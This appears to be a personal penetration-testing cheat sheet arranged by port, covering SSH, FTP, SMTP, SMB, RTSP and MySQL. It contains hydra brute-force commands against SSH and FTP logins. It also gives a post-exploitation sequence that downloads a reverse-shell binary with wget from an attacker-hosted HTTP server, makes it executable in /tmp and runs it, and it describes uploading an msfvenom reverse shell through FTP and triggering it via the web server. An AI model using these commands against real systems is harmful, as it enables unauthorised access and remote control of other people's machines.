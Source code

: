 ### HTTPS Basics :

A basic request looks like this :
![[Ports and vulnerabilities 1.png]]

### SSH (Port : 22) :
Basic services used to access a server remotely with user and password

Brute force a SSH :
```bash
hydra -L username.txt -P wordlist.txt ssh://{IP} 
```

login shh by :
```bash
ssh username@{IP} => then it asks for password
```

#### Post Exploitation for ssh :

same as ftp just upload a reverse shell and run it Ex : by local http server and wget
```bash
# On your machine
cd /path/to/shell
python3 -m http.server 8000

# and then
wget http://your_ip:8000/shell.elf -O /tmp/shell.elf
chmod +x /tmp/shell.elf
/tmp/shell.elf
```

*Note* : Use directories like temp where +x permissions are allowed

### FTP (Port : 21) :
FTP used for file transfer remotely

Check if the service allows anonymous access:
```bash
nmap -p 21 --script=ftp-anon {IP} 
# OR
lftp -u anonymous,anonymous ftp://{IP}
# OR
lftp ftp://username:password@ftp.example.com
```

Check which version of ftp is used:
```bash
nmap -p 21 -sV {IP}
```

Brute force with hydra (might get rate limited)
```bash
hydra -l {username} -P {password_list} ftp://{ftp_server_address}
```

#### Post Exploit for FTP:

In extremely vulnerabilities websites the FTP files are used to host website backend on port 80, 
Ex : There is a file image.png in ftp and when you navigate to {IP}:80/image.png you get it

upload the reverse shell through msfvenom and go that shell in browser
listen on port specified on reverse shell 
and you get connection

download Files form ftp:
```bash
get file.txt
```

to upload file:
```bash
put file.txt 
```


### SMTP (Port : 25) :
SMTP is a mail server 
Connect it via :
```bash
telnet <IP/website> 25
```


### SMB (Port : 445) :
This is a server message block for sharing files and images

scan :
```bash
nmap -p 445 --script smb-os-fingerprint,smb-enum-shares,smb-enum-users -sV {IP}
```

if interesting found use:
```shell
/usr/local/bin/python3 /Users/sulaimaneksambi/Bug_Bounty/enum4linux-ng/enum4linux-ng.py 10.10.196.66
```


### RTSP (Port : 554) :
used for media player
use ffplay
```shell
ffplay -rtsp_transport tcp rtsp://159.183.18.133:554/live.sdp
OR
ffplay -loglevel debug rtsp://159.183.18.133:554/live.sdp
OR
ffplay rtsp://159.183.18.133:554/live.sdp
```



### MySql (Port : 3306):
Used for database



